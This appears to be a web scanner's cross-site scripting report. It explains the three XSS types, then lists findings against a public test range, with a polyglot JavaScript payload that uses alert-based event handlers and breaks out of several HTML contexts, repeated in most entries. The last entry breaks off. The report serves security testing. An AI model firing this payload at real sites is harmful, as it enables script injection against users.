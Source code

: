 There are three types of Cross-site Scripting attacks: non-persistent, persistent and DOM-based.
Non-persistent attacks and DOM-based attacks require a user to either visit a specially crafted link laced with malicious code, or visit a malicious web page containing a web form, which when posted to the vulnerable site, will mount the attack. Using a malicious form will oftentimes take place when the vulnerable resource only accepts HTTP POST requests. In such a case, the form can be submitted automatically, without the victim's knowledge (e.g. by using JavaScript). Upon clicking on the malicious link or submitting the malicious form, the XSS payload will get echoed back and will get interpreted by the user's browser and execute. Another technique to send almost arbitrary requests (GET and POST) is by using an embedded client, such as Adobe Flash.
Persistent attacks occur when the malicious code is submitted to a web site where it's stored for a period of time. Examples of an attacker's favorite targets often include message board posts, web mail messages, and web chat software. The unsuspecting user is not required to interact with any additional site/link (e.g. an attacker site or a malicious link sent via email), just simply view the web page containing the code.

* URL: https://public-firing-range.appspot.com/address/location.hash/assign%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/address/location.hash/eval%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/address/location.hash/formaction%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/address/location.hash/function%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/address/location.hash/inlineevent%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: div Att name: null Att id: `
* URL: https://public-firing-range.appspot.com/address/location.hash/replace%23javascript:alert(5397&29
  * Method: `GET`
  * Parameter: ``